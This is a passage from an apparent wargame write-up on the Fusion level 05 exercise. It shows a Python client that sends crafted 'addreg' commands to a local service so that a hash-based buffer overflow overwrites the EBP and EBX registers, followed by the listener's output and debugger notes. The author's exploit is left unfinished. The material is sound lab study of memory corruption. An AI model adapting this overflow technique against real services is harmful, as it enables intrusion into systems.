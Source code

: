 ```lang-python line-numbers 
                i += 6
```

Using this listener and the following bruteforce client script, we can find which names generate the right hashes to overwrite ebp, ebx, eip ...

```lang-python line-numbers 
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 20005))
for i in xrange(139):
        if i == 84:
                # EBP
                payload = "addreg {0} 32 {1}\n".format(i,inet_ntoa("\x44\x44\x44\x44"))
        elif i == 50:
                # EBX
                payload = "addreg {0} 32 {1}\n".format(i,inet_ntoa("\x41\x41\x41\x41"))
        else:
                payload = "addreg {0} 32 127.0.0.{0}\n".format(i)
        s.send(payload)
s.send("senddb 127.0.0.1 6666\n")
s.close()
```

Running the script will get us the following packets in our listener:

```lang-bash line-numbers 
fusion@fusion:~$ python fusion05-senddb.py
..
..
[+]   Host (86) IP: 127.0.0.70 (7f000046)
[+]   Host (87) IP: 127.0.0.69 (7f000045)
[+]   Host (88) IP: 127.0.0.137 (7f000089)
[+]   Host (89) IP: 65.65.65.65 (41414141)
[+]   Host (90) IP: 127.0.0.87 (7f000057)
[+]   Host (91) IP: 68.68.68.68 (44444444)
```

It turns out that we need 139 different "names" to produce 91 unique hashes that are the ones required to overflow the buffer (not 85 as we calculated)
The problem is that the 91 registration also overwrites the argument to `free(line)` as shown in GDB right before calling `free()`

In the first overflow (the `get_and_hash()` one), we overwrite `esi` and `edi` which change on every request before overwriting `ebp` and `eip`. Overwriting `ebp` byte a byte can leak the binary load offset but in order to do so we have to overwrite `esi` with an address with write permissions (since "checkname" contains the following instruction after leaving `get_and_hash`: `<checkname+107>: mov (%esi),%eax`) and even guessing a good one, overwriting `ebp` does not change the server behaviour to make educated guesses about the right `ebp` value. So this looks like a dead end for my newbie skills.

So here I am stucked, any ideas?







